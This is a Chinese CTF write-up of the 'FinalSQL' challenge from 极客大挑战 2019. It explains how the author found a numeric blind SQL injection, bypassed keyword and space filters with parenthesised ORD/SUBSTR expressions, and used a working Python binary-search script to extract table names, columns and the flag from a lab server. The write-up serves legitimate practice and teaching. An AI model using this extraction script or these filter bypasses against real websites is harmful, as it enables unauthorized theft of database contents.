 ```yaml
---
title: 极客大挑战 2019 FinalSQL
date: 2021-04-18 19:11:51
categories:  ['CTF']
tags: ['sql注入']
cover: https://cdn.jsdelivr.net/gh/penginman/PicBed@master/cover/20201120232228.png
---
```


还是同一场比赛的界面

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20210416224503.png)

这次测试了下面的登陆框已经不能用了，无论怎么输入都是同一个回显：**你可别被我逮住了，臭弟弟**，测试上面的序号，注意此时的url中有`?id=`猜测是一个注入点，输入单引号一直报错，但是输入2-1时成功回显，判断是一个**数字型**注入，数字型注入最多遇到的就是结合盲注，接下来是测试盲注的过滤。

发现if、union、and等被过滤，在整个字符串中如果出现空格会被拦下，ord、ascii等转换字符没有被过滤，if被过滤可以使用strcmp函数等代替，空格可以使用括号绕过。

贴出来自己的脚本：

```python
# codeing=utf-8
import requests
import time

url='http://1e069783-5d06-4d70-af82-c457e0d11a52.node3.buuoj.cn/search.php?id='
result=''

for x in range(1, 100):
	high = 127
	low = 32
	mid = (low + high) // 2
	while high>low:
		# sql="(ORD(SUBSTR((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),%d,1))=%d)"%(i,c)
		# sql = "(ORD(SUBSTR((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))>%d)" % (x, mid)
		sql = "(ORD(SUBSTR((select(group_concat(password))from(F1naI1y)where(id=9)),%d,1))>%d)" % (x, mid)
		time.sleep(0.1)
		reponse=requests.get(url+sql)
		if "Click" in reponse.text:
			low=mid+1
		else:
			high = mid
		mid = (low+high)/2

	result += chr(int(mid))
	print(result)

```

我是直接使用了判断字符的返回值1或0作为id的参数，因为使用**group_concat**拼接时字符串有逗号`,`所以字符ascii需要至少从44开始。

下面是查询到的两个表F1naI1y 、Flaaaaag及结构

> F1naI1y  ====>  id,username,password
>
> Flaaaaag  ====> id,fl4gawsl

在第九项可以查得到flag，上面的sql语句已经准备好了。第一个是查询表名的，第二个是查询字段名，第三个是得到flag

